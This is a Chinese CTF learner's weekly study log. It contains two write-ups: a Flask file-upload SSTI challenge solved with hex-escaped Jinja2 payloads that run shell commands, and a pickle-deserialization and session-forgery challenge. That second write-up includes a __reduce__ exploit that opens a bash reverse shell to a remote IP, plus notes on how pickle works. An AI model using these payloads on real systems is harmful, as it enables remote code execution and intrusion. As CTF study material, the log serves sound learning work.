

# 3.3~3.9 WEEK2

## 概况

初步学习了pickle反序列化，和session伪造


## WP

### [GHCTF]  upload?SSTI!

打开一看是一个上传文件的界面，尝试上传木马的各种方法，都失败了，只好看一下附件提供的源码

```PYTHON
import os

import re

from flask import Flask, request, jsonify,render_template_string,send_from_directory, abort,redirect

from werkzeug.utils import secure_filename

import os

from werkzeug.utils import secure_filename

app = Flask(__name__)

\# 配置信息

UPLOAD_FOLDER = 'static/uploads' # 上传文件保存目录

ALLOWED_EXTENSIONS = {'txt', 'log', 'text','md','jpg','png','gif'}

MAX_CONTENT_LENGTH = 16 * 1024 * 1024  # 限制上传大小为 16MB

app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER

app.config['MAX_CONTENT_LENGTH'] = MAX_CONTENT_LENGTH

\# 创建上传目录（如果不存在）

os.makedirs(UPLOAD_FOLDER, exist_ok=True)

def is_safe_path(basedir, path):

  return os.path.commonpath([basedir,path])

 

def contains_dangerous_keywords(file_path):

  dangerous_keywords = ['_', 'os', 'subclasses', '__builtins__', '__globals__','flag',]

  with open(file_path, 'rb') as f:

​    file_content = str(f.read())

 

​    for keyword in dangerous_keywords:

​      if keyword in file_content:

​        return True  # 找到危险关键字，返回 True

  return False  # 文件内容中没有危险关键字

def allowed_file(filename):

  return '.' in filename and \

​    filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS

 

@app.route('/', methods=['GET', 'POST'])

def upload_file():

  if request.method == 'POST':

​    \# 检查是否有文件被上传

​    if 'file' not in request.files:

​      return jsonify({"error": "未上传文件"}), 400

​    file = request.files['file']

​    \# 检查是否选择了文件

​    if file.filename == '':

​      return jsonify({"error": "请选择文件"}), 400

​    \# 验证文件名和扩展名

​    if file and allowed_file(file.filename):

​      \# 安全处理文件名

​      filename = secure_filename(file.filename)

​      \# 保存文件

​      save_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)

​      file.save(save_path)


​      \# 返回文件路径（绝对路径）

​      return jsonify({

​        "message": "File uploaded successfully",

​        "path": os.path.abspath(save_path)

​      }), 200

​    else:

​      return jsonify({"error": "文件类型错误"}), 400

  \# GET 请求显示上传表单（可选）

  return '''

  <!doctype html>

  <title>Upload File</title>

  <h1>Upload File</h1>

  <form method=post enctype=multipart/form-data>

   <input type=file name=file>

   <input type=submit value=Upload>

  </form>

  '''

@app.route('/file/<path:filename>')

def view_file(filename):

  try:

​    \# 1. 过滤文件名

​    safe_filename = secure_filename(filename)

​    if not safe_filename:

​      abort(400, description="无效文件名")

​    \# 2. 构造完整路径

​    file_path = os.path.join(app.config['UPLOAD_FOLDER'], safe_filename)

​    \# 3. 路径安全检查

​    if not is_safe_path(app.config['UPLOAD_FOLDER'], file_path):

​      abort(403, description="禁止访问的路径")

​    \# 4. 检查文件是否存在

​    if not os.path.isfile(file_path):

​      abort(404, description="文件不存在")

​    suffix=os.path.splitext(filename)[1]

​    print(suffix)

​    if suffix==".jpg" or suffix==".png" or suffix==".gif":

​      return send_from_directory("static/uploads/",filename,mimetype='image/jpeg')

​    if contains_dangerous_keywords(file_path):

​      \# 删除不安全的文件

​      os.remove(file_path)

​      return jsonify({"error": "Waf!!!!"}), 400

​    with open(file_path, 'rb') as f:

​      file_data = f.read().decode('utf-8')

​    tmp_str = """<!DOCTYPE html>

​    <html lang="zh">

​    <head>

            <meta charset="UTF-8">

            <meta name="viewport" content="width=device-width, initial-scale=1.0">

​      <title>查看文件内容</title>

​    </head>

​    <body>

​      <h1>文件内容：{name}</h1> <!-- 显示文件名 -->

            <pre>{data}</pre>  <!-- 显示文件内容 -->

​      <footer>

                <p>&copy; 2025 文件查看器</p>

​      </footer>

​    </body>

​    </html>

​    """.format(name=safe_filename, data=file_data)

​    return render_template_string(tmp_str)

  except Exception as e:

​    app.logger.error(f"文件查看失败: {str(e)}")

​    abort(500, description="文件查看失败:{} ".format(str(e)))

 

\# 错误处理（可选）

@app.errorhandler(404)

def not_found(error):

  return {"error": error.description}, 404

 

@app.errorhandler(403)

def forbidden(error):

  return {"error": error.description}, 403

 

if __name__ == '__main__':

  app.run("0.0.0.0",debug=False)
```

 审计代码，发现仅有txt', 'log', 'text','md','jpg','png','gif格式的文件可以上传，再结合标题提示的ssti，和检查上传文件内容中有无`dangerous_keywords = ['_', 'os', 'subclasses', '__builtins__', '__globals__','flag',]`，全是ssti常用的字符和函数。故猜测可以利用ssti模板注入，且注入点为上传的文件

 验证一下我的猜想，写一个1.txt内容为{{2*2}}，上传后打开/file/1.txt，发现回显的是4，存在ssti模板注入 

写一个2.txt，内容依次为:

```
payload1：
{{""["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbase\x5f\x5f"]['\x5f\x5fsubc'+'lasses\x5f\x5f']()}}

 payload2：
{{""["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbase\x5f\x5f"]['\x5f\x5fsubc'+'lasses\x5f\x5f']()[137]["\x5f\x5finit\x5f\x5f"]['\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f']['popen']('ls /').read()}}

 payload3：
{{""["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbase\x5f\x5f"]['\x5f\x5fsubc'+'lasses\x5f\x5f']()[137]["\x5f\x5finit\x5f\x5f"]['\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f']['popen']('cat /f*').read()}}
```

上传完打开/file/2.txt即可得到flag


------

### easyflask

一打开就看到了提示/file?file=index.js

打开后得到了第二个提示：Here is a js file. Source at /app/source 

一眼文件读取，直接把file后的index.php，改成/app/source即可读取源码

```python
\#!/usr/bin/python3.6

import os

import pickle

from base64 import b64decode

from flask import Flask, request, render_template, session

\#初始化flask应用，设立了一个密钥SECRET_KEY

app = Flask(__name__)

app.config["SECRET_KEY"] = "*******"

\#定义了User类

User = type('User', (object,), {

  'uname': 'test',

  'is_admin': 0,  #uname默认为test，默认非管理员

  '__repr__': lambda o: o.uname,  #repr方法返回uname

})

\#定义路由，处理根路径的GET请求

@app.route('/', methods=('GET',))

\#检查是否存在u的值，如果不存在，则创建User对象，并将其序列化存入session中

def index_handler():

  if not session.get('u'):

​    u = pickle.dumps(User())

​    session['u'] = u

  return "/file?file=index.js"

\#定义路由，处理/file的GET请求

@app.route('/file', methods=('GET',))

def file_handler():

\#获取file参数的值

  path = request.args.get('file')

\#检查file路径是否合法，如果存在.py/.sh/../flag则返回disallowed

  path = os.path.join('static', path)

  if not os.path.exists(path) or os.path.isdir(path) \

​      or '.py' in path or '.sh' in path or '..' in path or "flag" in path:

​    return 'disallowed'

\#如果合法，则返回文件内容

  with open(path, 'r') as fp:

​    content = fp.read()

  return content

\#定义路由，处理/admin的GET请求

@app.route('/admin', methods=('GET',))

def admin_handler():

  try:

​    \#从session中取出u的值

​    u = session.get('u')

​    \#判断u是否是字典，如果是则从u中获取'b'的值，并b64解码

​    if isinstance(u, dict):

​      u = b64decode(u.get('b'))

​    \#将u反序列化为对象

​    u = pickle.loads(u)

  except Exception:

​    return 'uhh?'

  \#如果为管理员则返回welcome，admin，否则返回who are you

  if u.is_admin == 1:

​    return 'welcome, admin'

  else:

​    return 'who are you?'

\#监听所有网络接口的80端口

if __name__ == '__main__':

  app.run('0.0.0.0', port=80, debug=False)
```

审计代码，发现存在一个SECRET_KEY用于session加密。打开/proc/self/environ即可查看当前进程环境变量，可获得secret_key=glzjin22948575858jfjfjufirijidjitg3uiiuuh

如下是f12查到的session的b64解码，由此可以用secret_key伪造session{'u':{'b':'payload'}}


```python
exp：

import os

import pickle

from base64 import b64encode

User = type('User', (object,), {

  'uname': 'test',

  'is_admin': 1,

  '__repr__': lambda o: o.uname,

  '__reduce__': lambda o: (os.system,("bash -c 'bash -i >& /dev/tcp/192.168.177.129/7777 0>&1",))

})

u = pickle.dumps(User())

print(b64encode(u).decode())
```

得到base64编码，我们把它植入session中：Y3Bvc2l4CnN5c3RlbQpwMAooUyJiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTc3LjEyOS83Nzc3IDA+JjEiCnAxCnRwMgpScDMKLg==

Linux git clone一个项目flask-session-cookie-manager.

输入：

cd flask-session-cookie-manager

python3 flask_session_cookie_manager3.py encode -s 'glzjin22948575858jfjfjufirijidjitg3uiiuuh' -t "{'u':{'b':'Y3Bvc2l4CnN5c3RlbQpwMAooUyJiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTc3LjEyOS83Nzc3IDA+JjEiCnAxCnRwMgpScDMKLg=='}}"

即可得到session：

eyJ1Ijp7ImIiOiJZNWMzUmxicHdvb3lpbzFqZGlYbzFwNG1JOWt2ZHd6NWk0eGpndWMzakV5UzgzemMzamlueG53Z3BjZz09In19.Z8mU2A.77KywOQyvW8nzcoTy8Nlxavcpkc

进入/admin，bp抓包修改session。

kali终端nc -lvp 7777，但这里不知道为什么反弹shell一直不成功。回去看了一眼bp，发现回显是uhh？伪造的session好像没有成功上传，于是是又尝试了用python2跑脚本，结果仍然是uhh。也不知道为什么一直有问题，捣鼓了两个晚上也没什么结果，还是决定下周再尝试一下。


------

### 一些笔记

#### 1.什么是pickle

在Python中，pickle是一个用于序列化和反序列化的标准模块。其将Python对象转化为字节流，或尝试重建原始对象，将字节流转化回Python对象。在序列化和反序列化的过程中，pickle提供了简单的持久化功能，可以将对象以文件形式永久存放在磁盘上（即后缀为.pickle的文件）

不同于php序列化，pickle适用于列表，字典，集合，类等几乎所有数据类型。其序列化后的数据是二进制格式，和php序列化后的字符串有所差别。

 

#### 2.pickle的使用

和php序列化相同，pickle序列化主要在网络场景中使用，将数据序列化后通过网络传输到远程服务器，服务器接收后反序列化即可使用原始数据。但这里就存在一个pickle序列化的缺点，其只能在pickle模块中使用，即传输的两端都为python，且版本尽可能相同。如果需要跨平台跨语言，就不能使用pickle，而应使用XML,JSON等。

类似于php的serialized和unserialized，pickle也有两个功能，即将对象转换成字节流（串行化），将字节流转换成对象（反串行化）

下面是pickle在python中使用的简单实例：

```python
import pickle

data1 = 'hello world' #字符串

data2 ={'admin','123456'} #字典

data3 = ['username','passwd'] #数组

class secret():

  username='admin'

  passwd='123456'

data4=secret()

 

serialized1 = pickle.dumps(data1)  # 序列化为字节流

unserialized1 = pickle.loads(serialized1)  # 反序列化

print (f'序列化结果为：{serialized1}')

print (f'反序列化结果为：{unserialized1}')


serialized2 = pickle.dumps(data2)  

unserialized2 = pickle.loads(serialized2)  

print (f'序列化结果为：{serialized2}')

print (f'反序列化结果为：{unserialized2}')


serialized3 = pickle.dumps(data3)  

unserialized3 = pickle.loads(serialized3) 

print (f'序列化结果为：{serialized3}')

print (f'反序列化结果为：{unserialized3}')

 
serialized4= pickle.dumps(data4) 

unserialized4= pickle.loads(serialized4) 

print (f'序列化结果为：{serialized4}')

print (f'反序列化结果为：{unserialized4}')
```


pickle成功将字符串，数组，字典，类等序列化，但需要关注的是，类的反序列化结果有些问题，其经序列化再反序列化后的结果并不是我们所写入的数据admin，123456。这是由于没有定义`__reduce__`方法来控制序列化和反序列化的行为，使用pickle在这里序列化和反序列化的是实例data4，而非我们想要的类属性。（data4是实例，它只是引用了username和passwd的类属性）

这里再说明一下`__reduce__`魔术方法：

当使用pickle模块来序列化对象时，且`__reduce__`方法存在时，pickle模块会调用对象的`__reduce`__方法，有点像我们php中的wakeup魔术方法。

由此修改一下我们序列化类的代码，如下：

```python
import pickle

class secret:

  username = 'admin'

  passwd = '123456'

 
  def __init__(self, username=None, passwd=None):

​    if username:

​      self.username = username

​    if passwd:

​      self.passwd = passwd

 
  def __reduce__(self):

​    return (secret, (self.username, self.passwd))

 
data= secret()

 
serialized = pickle.dumps(data)

unserialized = pickle.loads(serialized)

print ("序列化结果为：",serialized)

print("Deserialized data - Username:", unserialized.username)

print("Deserialized data - Password:", unserialized.passwd)
```


除了上述代码使用的串行化dumps和反串行化loads，还有dump和load可供使用，但后者不仅对数据进行操作，还进行文件操作：将转化后的数据存储到文件中，或读取文件进行反串行化。

查询一下python的文档，下面是dumps的原型：

pickle.dumps(*obj*, *protocol=None*, ***, *fix_imports=True*, *buffer_callback=None*)

其中：

obj为需要序列化的对象；

protocal为序列化协议的版本，默认值是none，可选值为：

  0：ascii协议（人类可读）

  1：旧的二进制协议

  2：新的二进制协议

  3，4，5：一些更新

fix_imorts默认值为true，作用是尝试将python2的模块名映射到python3的模块名

buffer_callback默认值为none


#### 3.pickle的工作方式

如下是一个对象经历序列化和反序列化的详细过程：

1）遍历，读取序列化对象的所有属性

2）将读取到对象的类型和值转化为PVM指令，即操作码（opcode）

3）将PVM指令编码为字节流，并写入文件或保存在网络流中

4）读取反序列化的字节流

5）pickle使用PVM解析字节流中的操作码

6）PVM维护一个栈来储存数据，将栈顶的数据取出，并依据操作码类型来执行命令，以重建对象，并将执行完成后的结果压入栈中

7）PVM将栈顶的数据返回，即返回python对象

 

在pickle这个过程中，起到核心作用的是PVM，即Pickle Virtual Machine。意如其名，PVM就是pickle模块的虚拟机，负责python的序列化和反序列化。其特点是，基于栈来储存序列化和反序列化的中间结果，并由opcode来决定如何序列化或反序列化对象。

下面来简单介绍一下PVM的几个重要组成部分：

1）栈（stack）：一种常见的数据结构，特点是后进先出，由python的list实现，在pickle中主要用于临时储存中间数据

  a）栈顶：允许插入和删除元素的一端

  b）栈底：栈的另一端，不允许操作

  c）压栈：将元素插入栈顶

  d）弹栈：删除栈顶元素

  e）查看栈顶元素：获取栈顶元素的值，但不删除

2）内存（memo）：pickle模块中的内存区域，由python的dict实现，用于储存已经反序列化的对象

3）解析引擎：从字节流中读取opcode，并对其进行解释。例如\x2e(STOP)，hex转码即是"."，意思是结束pickle的执行


#### 4.pickle反序列化的漏洞

pickle反序列化经常会在认证token和session时出现，所以其经常会和session伪造搭配一起食用。

1）`__reduce__`

利用`__reduce__`来构造恶意字符串，当该字符串被反序列化时，`__reduce__`会被执行。

下面详细来写一下这个魔术方法：

`__reduce__`方法在pickle模块序列化一个对象时会被调用，并返回字符串或最好返回的一个元组，包含2到6个元素，其中第一个元素是一个可调用对象，该对象会在创建对象时被调用，第二个元素是元组，其可调用对象的参数。这和opcode中的R相似：选择栈上的第一个对象作为函数、第二个对象作为参数（第二个对象必须为元组），然后调用该函数。

由此我们可以利用`__reduce__`的第二个元素的参数来执行恶意代码。

```python
import pickle

import pickletools

import os

class Secret():

  def __init__(self):

​    self.username='admin'

​    self.passwd='123456'

  def __reduce__(self):

​    return(os.system,('ls /',))

payload=pickle.dumps(Secret())

payload=pickletools.optimize(payload) #优化pickle序列化后的字节码

print(payload)

pickletools.dis(payload)
```

将ls /命令注入正常的代码，将序列化后的字节流导入后反序列化，即可执行ls /命令

```python
import pickle

import pickletools

import os

class Secret():

  def __init__(self):

​    self.username='admin'

​    self.passwd='123456'

payload=pickle.loads(b'\x80\x04\x95\x16\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x8c\x06system\x93\x8c\x04ls /\x85R.')
```


#### 5.opcode

示例代码如下：

```python
import pickle

import pickletools

class secret:

  username = 'admin'

  passwd = '123456'

  def __init__(self, username=None, passwd=None):

​    if username:

​      self.username = username

​    if passwd:

​      self.passwd = passwd

  def __reduce__(self):

​    return (secret, (self.username, self.passwd))

data= secret()

serialized = pickle.dumps(data)

print ("序列化结果为：",serialized)

pickletools.dis(serialized)
```



 

参考文章：

[Python的pickle模块详解（包括优缺点及和JSON的区别）_python pickle-CSDN博客](https://blog.csdn.net/Hardworking666/article/details/112754839)

[pickle --- Python 对象序列化 — Python 3.13.2 文档](https://docs.python.org/zh-cn/3/library/pickle.html)

[文章 - pickle反序列化初探 - 先知社区](https://xz.aliyun.com/news/7032?time__1311=YqfxgD2D0A0%3DDtD%2FWrWqiwR7KN0QQD9ihYD&u_atoken=26a4d46376d3c30ba77c9fa2d30cd875&u_asig=1a0c399817409927761584777e0067)

[Python反序列化：pickle原理&rce | Lovy](https://1ovy.github.io/2024/09/21/Just-for-test/)

[从零开始python反序列化攻击：pickle原理解析 & 不用reduce的RCE姿势 - 知乎](https://zhuanlan.zhihu.com/p/89132768)

[文章 - pickle反序列化漏洞基础知识与绕过简析 - 先知社区](https://xz.aliyun.com/news/13498)

[CTF题型 Python中pickle反序列化进阶利用&amp；例题&amp；opache绕过(1)_ctf pickle-CSDN博客](https://blog.csdn.net/2401_84009679/article/details/137661711)

[Python Pickle反序列化漏洞 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/252189.html)


### 下周计划

继续pickle反序列化，再学学JWT伪造